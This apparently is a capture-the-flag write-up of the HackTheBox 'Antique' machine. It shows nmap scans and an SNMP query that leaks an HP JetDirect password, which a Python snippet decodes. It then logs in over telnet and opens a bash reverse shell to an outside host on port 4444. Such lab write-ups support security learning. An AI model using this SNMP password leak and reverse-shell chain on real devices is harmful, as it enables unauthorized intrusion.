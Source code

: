 | Port      | State | Service    | Version      |
| --------- | ----- | ---------- | ------------ |
| 23/tcp    | open  | telnet?    | HP JetDirect |
| 20222/tcp | open  | ipulse-ics |              |


```bash
┌─[✗]─[aexon@parrot]─[~/tools/reverse]
└──╼ $sudo nmap -sU --top-ports 10 -sV  10.10.11.107 -Pn
[sudo] password for aexon: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 22:12 WIB
Nmap scan report for 10.10.11.107
Host is up (0.12s latency).

PORT     STATE  SERVICE      VERSION
53/udp   closed domain
67/udp   closed dhcps
123/udp  closed ntp
135/udp  closed msrpc
137/udp  closed netbios-ns
138/udp  closed netbios-dgm
161/udp  open   snmp         SNMPv1 server (public)
445/udp  closed microsoft-ds
631/udp  closed ipp
1434/udp closed ms-sql-m

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds

```


# User flag

refrense : https://www.exploit-db.com/exploits/22319
https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp/snmp-rce

command :
```bash
snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

```bash
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

```python
# Mengambil nilai BITS dari string
bits_string = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 " \
              "33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 " \
              "37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 " \
              "82 83 86 90 91 94 95 98 103 106 111 114 115 119 " \
              "122 123 126 130 131 134 135"

# Pisahkan nilai heksadesimal menjadi list
hex_values = bits_string.split()

# Konversi nilai heksadesimal ke karakter ASCII
result_string = ''.join([chr(int(hex_value, 16)) for hex_value in hex_values])

print(result_string)
```


# RCE

```bash
┌─[aexon@parrot]─[~/Desktop/ctf-main/ctf-docs/CTF/hackthebox/linux/Antique]
└──╼ $telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> exec bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"

```

